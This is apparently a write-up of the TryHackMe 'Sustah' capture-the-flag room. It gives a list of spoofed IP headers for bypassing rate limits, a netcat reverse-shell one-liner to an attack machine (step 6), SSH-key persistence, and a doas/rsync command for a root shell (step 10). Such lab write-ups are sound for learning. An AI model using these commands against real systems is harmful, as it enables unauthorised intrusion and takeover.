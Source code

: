 # Sustah

https://tryhackme.com/room/sustah

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"

An easy-ish room (solved it in under an hour, which is good for me), with some new tricks I haven't used before.

1. NMap revealed 22, 80 and 8085. Both 80 and 8085 looked like single page websites, with nothing on 80
2. 8085 hosted a 'Spinner' site, where you had to guess a number. Throwing this into burp intruder quickly ran into a strict ratelimit. The hint for this was 'what headers can you add?'
3. Researching bypassing ratelimiting, I tried a bunch of things. Eventually adding the following headers and header values got me through:

    ```
    X-Originating-IP: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Host: 127.0.0.1
    X-Forwared-Host: 127.0.0.1
    ```

    This was from https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass. Later, looking at the spinner code, it was specifically set to bypass limiting for `X-Remote-Addr` with that localhost value.
    
    > For those having difficulty with this bit and who have stumbled across this writeup, know that I had to do research to figure this out. The research was basically:
    > - try passing the rate headers with the request - failed
    > - try using x-forwarded-for and burp to simulate coming from somewhere else - failed
    > - googled the rate limit headers, found they are common for rate limiting and wafs.
    > - googled rate limit bypass and found various medium articles, and a burp extension 'Bypass WAF' (which I didn't use) but which all gave more headers
    > - tried adding these headers with random ips - failed. tried altering user-agent, cookie, even host etc, none worked
    > - finally added these headers with a fixed ip, 127.0.0.1, which worked
    >
    >
    > took me about half an hour, and was fairly systematic. basically experiementation and research, and not over thinking it (its a medium level room, not one of the giant mind  fucks you might get in harder rooms)
  
4. Now I was able to brute force the number, using Intruder to attack with 500 threads and all numbers from 10000 to 99999 (as the answer field showed five digits). Getting the right number revealed a hidden path under the 80 site.

5. On this site was a CMS - I won't say the type as that is one of the room's questions. I was able to find credentials on one of its pages on the site-map, which turned out to be publically documented default credentials. There was also a known exploit, where if you have creds for an admin user (as the default user is) you can access a file upload screen that doesn't do any vetting. The version of the CMS was one of the other questions - I submitted the version on the exploit entry from exploit-db, which was correct.

6. Uploading a PHP web shell, I connected back to my attack machine with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.7.78 4444 >/tmp/f`

7. On the machine, www-data had no access to find and there wasn't anything obvious. The question hint, however, said something about interesting backups. Checking `/var/backups`, I found a hidden file called `.bak.passwd`, which contained the password for `kiran`, the only user with a home folder.

8. As kiran I got the user flag, then added my ssh pub key to a new authorized_keys entry under a new .ssh folder (chmod 700 on the .ssh folder, and 600 on authorized keys, I always need to look this up). Afterwards I could ssh in easily.

9. Basic enumeration got me nowhere. The question hint was 'you dont always need sudo', but it wans't until I ran linpeas that I figured out what this alluded to: there is a quasi-alternative to sudo called `doas`. Specifically, here kiran was able to run `rsync as root` via doas (as can be seen in `doas.conf`, which linpeas checked for me).

10. The final privesc was `doas -u root rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` which got me a root shell and the final flag, the rsync args coming from gtfo-bins.
